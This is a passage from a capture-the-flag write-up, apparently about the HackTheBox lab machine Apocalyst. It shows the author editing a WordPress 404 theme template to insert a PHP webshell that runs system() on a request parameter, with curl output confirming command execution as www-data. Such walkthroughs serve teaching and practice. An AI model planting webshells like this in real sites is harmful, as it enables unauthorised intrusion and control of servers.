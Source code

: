 ![image-20210205143444716](https://0xdfimages.gitlab.io/img/image-20210205143444716.png)

The 404 template is a good place to start. I’ll select that on right right side, and add some code at the top to test:

```

<?php
if (isset($_REQUEST['0xdf'])){ echo '0xdf'; }
/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page

```

Now I’ll find a post that doesn’t exist. The top post on the main page leads to `http://apocalyst.htb/?p=9`. Changing that 9 to 8 leads to the 404 page:

![image-20210205143953571](https://0xdfimages.gitlab.io/img/image-20210205143953571.png)

Now I’ll add the parameter `0xdf`, visiting `http://apocalyst.htb/?p=8&0xdf=1`, and “0xdf” is printed right at the top:

```

oxdf@parrot$ curl -s 'http://apocalyst.htb/?p=8&0xdf=1' | head
0xdf<!DOCTYPE html>
<html lang="en-GB" class="no-js no-svg">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="profile" href="http://gmpg.org/xfn/11">

<script>(function(html){html.className = html.className.replace(/\bno-js\b/,'js')})(document.documentElement);</script>
<title>Page not found &#8211; Apocalypse Preparation Blog</title>
<meta name='robots' content='noindex,follow' />

```

This shows I can write PHP that will be executed. I’ll change the code to a webshell, `<?php
if (isset($_REQUEST['0xdf'])){ system($_REQUEST['0xdf']); echo "\n";}` , and now it executes commands:

```

oxdf@parrot$ curl -s 'http://apocalyst.htb/?p=8&0xdf=id' | head -3
uid=33(www-data) gid=33(www-data) groups=33(www-data)

<!DOCTYPE html>

```

### Shell
